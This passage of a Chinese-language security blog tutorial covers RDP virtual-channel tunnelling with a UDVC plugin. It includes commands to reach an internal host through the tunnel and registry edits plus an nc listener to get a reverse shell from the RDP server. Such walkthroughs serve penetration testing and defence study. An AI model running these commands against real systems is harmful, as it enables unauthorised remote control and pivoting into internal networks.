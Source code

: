 连接远程桌面

#### (4)RDP Server启动UDVC-Server.exe

命令如下：

```
UDVC-Server.x64.exe -c -p 80 -i 192.168.112.129 -0
```

#### (5)RDP Client打开浏览器并访问http://127.0.0.1:1234

获得内网192.168.112.129:80的数据

通道建立完成，简要流程图如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-12-5/4-2.png)

### 3.实现反弹shell的功能

RDP Server反弹一个shell至RDP Client

RDP Client能够实时控制RDP Server，执行cmd命令

#### (1)将Mode设置为`Socket client mode (1)`

修改注册表的cmd命令为:

```
reg add "hkcu\Software\Microsoft\Terminal Server Client\Default\AddIns\UDVC-Plugin" /v mode /t REG_DWORD /d 1 /f
```

#### (2)设置监听端口为1234

修改注册表的cmd命令为:

```
reg add "hkcu\Software\Microsoft\Terminal Server Client\Default\AddIns\UDVC-Plugin" /v port /t REG_SZ /d 1234 /f
```

#### (3)启动远程桌面客户端

命令如下：

```
mstsc.exe
```

连接远程桌面

#### (4)RDP Client使用nc监听本地端口1234

命令如下：

```
nc64.exe -lvp 1234
```
